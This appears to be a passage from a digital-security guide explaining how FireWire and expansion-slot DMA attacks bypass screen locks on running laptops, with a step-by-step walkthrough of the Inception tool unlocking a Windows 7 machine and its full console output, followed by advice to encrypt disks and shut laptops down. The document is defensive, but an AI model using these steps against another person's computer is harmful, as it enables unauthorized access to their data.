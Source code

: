 
Firewire ports and expansion slots can be abused to obtain data that are thought to be encrypted

The threat describe in this section is more complex than it needs to be. In fact, unencrypted data are vulnerable to any number of simple attacks, the two most straightforward being: 1) rebooting the computer from a USB stick CD-ROM or DVD containing an alternate operating system, then copying all of the data; or 2) removing the hard drive, inserting it into a different machine, then copying all of the data. These techniques, which work on nearly any computer, even if a strong login password has been set, are effective and widely used, but they require extended physical access to the device. A slightly different attack is described below, one that only requires physical access for a few minutes. It, too, works regardless of login/screen-lock passwords, though only devices with Firewire ports or expansion slots (ExpressCard, CardBus, PCMCIA, etc.) are vulnerable.

The steps required to defend against all of these threats is the same: encrypt your data using a tool like Microsoft’s BitLocker, Apple’s FileVaule or the open-source Truecrypt application. The Firewire attack highlighted here is particularly illustrative, however, because it serves as a reminder that merely setting up an encrypted volume is not enough. In much the same way that a lock does little to protect your home if the door to which it is attached remains open, data encryption is rarely effective while you are logged into your computer. Even if the screen is locked (which would foil the “reboot” and “hard drive removal” attacks described briefly above), an attacker may still find a way to access your sensitive data, while the computer is up and running, because the decryption key is present in the computer’s memory. (This is how large-scale encryption actually works. Information remains encrypted at all times, on the storage device where it lives, but you are able to access it while you are logged in, or while your encrypted volume is “open,” because your computer decrypts and encrypts it on the fly.)
Walkthrough

Step 1: First, the attacker would connect her computer to the victim’s using a Firewire cable. Either or both machines could be using a true Firewire port or a Firewire expansion card. When a Firewire ExpressCard expansion card is inserted, Windows automatically installs and configures the necessary drivers, even if nobody is logged into the laptop.

Step 2: Once connected, the attacker simply runs the Inception tool, selects the operating system of the target machine and waits a minute or two for the attack to complete (depending on the amount of RAM present):

```
$ incept

 _|  _|      _|    _|_|_|  _|_|_|_|  _|_|_|    _|_|_|  _|    _|_|    _|      _|
 _|  _|_|    _|  _|        _|        _|    _|    _|    _|  _|    _|  _|_|    _|
 _|  _|  _|  _|  _|        _|_|_|    _|_|_|      _|    _|  _|    _|  _|  _|  _|
 _|  _|    _|_|  _|        _|        _|          _|    _|  _|    _|  _|    _|_|
 _|  _|      _|    _|_|_|  _|_|_|_|  _|          _|    _|    _|_|    _|      _|

v.0.2.0 (C) Carsten Maartmann-Moe 2012
Download: http://breaknenter.org/projects/inception | Twitter: @breaknenter

[*] FireWire devices on the bus (names may appear blank):
--------------------------------------------------------------------------------
[1] Vendor (ID): MICROSOFT CORP. (0x50f2) | Product (ID):  (0x0)
--------------------------------------------------------------------------------
[*] Only one device present, device auto-selected as target
[*] Selected device: MICROSOFT CORP.
[*] Available targets:
--------------------------------------------------------------------------------
[1] Windows 8: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation
[2] Windows 7: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation
[3] Windows Vista: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation
[4] Windows XP: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation
[5] Mac OS X: DirectoryService/OpenDirectory unlock/privilege escalation
[6] Ubuntu: libpam unlock/privilege escalation
--------------------------------------------------------------------------------
[!] Please select target (or enter 'q' to quit): 2
[*] Selected target: Windows 7: msv1_0.dll MsvpPasswordValidate unlock/privilege escalation
[*] Initializing bus and enabling SBP-2, please wait  1 seconds or press Ctrl+C
[*] DMA shields should be down by now. Attacking...
[*] Searching, 1328 MiB so far
[*] Signature found at 0x8b50c321 (in page # 570636)
[*] Write-back verified; patching successful
[*] BRRRRRRRAAAAAWWWWRWRRRMRMRMMRMRMMMMM!!!
```

*In the case of the laptops tested, Inception took approximately two minutes to reach the final, somewhat self-congratulatory line shown above. At that point, we were able to login using any password. (Entering “asdf” worked just fine, and gave us full access to all data on the computer.) Inception works by temporarily replacing authentication code using the Firewire’s protocol’s direct memory access (DMA). After a reboot, everything is restored to its original state.*

Once again, it is worth noting that successful mitigation of this issue requires a combination of technology (data encryption) and some level of behavior change (shutting down laptops at the end of the day, when traveling and at any time when confiscation, theft, loss or tampering are particularly likely.)


##### Material that may be Useful:

